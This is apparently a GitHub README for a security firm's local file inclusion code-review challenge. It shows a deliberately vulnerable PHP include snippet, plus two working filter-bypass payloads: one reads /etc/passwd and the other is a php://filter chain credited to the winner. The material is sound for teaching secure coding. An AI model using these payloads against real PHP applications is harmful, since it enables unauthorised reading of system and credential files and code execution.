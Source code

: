 # LFI code review for December2022 by SecurityBoat

## Problem

**The task is to spot the vulnerability in the provided static code snippet and trying bypassing it by providing payload to include important server files like /etc/passwd or /etc/shadow etc.**

## Snippet

**Here is the code snippet to solve and perform the attack**

```javascript
<?php
require_once("constants.php");
echo "Static code review<br/>";
if($_GET!=null){
    $file=$_GET["file"];
    $file = preg_replace("/(..\/[a-z0-9]{3,4})|%[0-9]{1}|([a-z]{1,7}:\/\/)|[A-Z]{1}:\\\[a-zA-z]{1,}|(etc)|(proc)/","",$file,3);
    $file = str_replace(["etc", "proc"],"",$file);
    $file = substr($file,0,PARAM);
    include_once($file);
}
?>
```

- [Twitter](https://twitter.com/Securityb0at/status/1599010560070144003?cxt=HHwWhsCikb3o6bAsAAAA)
- [linkedIn](https://www.linkedin.com/posts/securityboat_bugbounty-infosec-cybersecurity-activity-7004777992904192000-A27O)
- [Instagram](https://www.instagram.com/p/CltR6lIIvlp/?igshid=ZmRlMzRkMDU%3D)

## Best Solution(Payload)

```
%1%1%1/etceetctc/passwd
```

## Winner of Challenge

[Egidio Romano](https://it.linkedin.com/in/romanoegidio)

## Winners Solution(Payload)

```
php://php://php://php://filter/[CHAIN_HERE]/resource=php://temp
```

## Write up

[Writeup](https://securityboat.in/spot-the-vulnerability-lfi-code-challenge/)
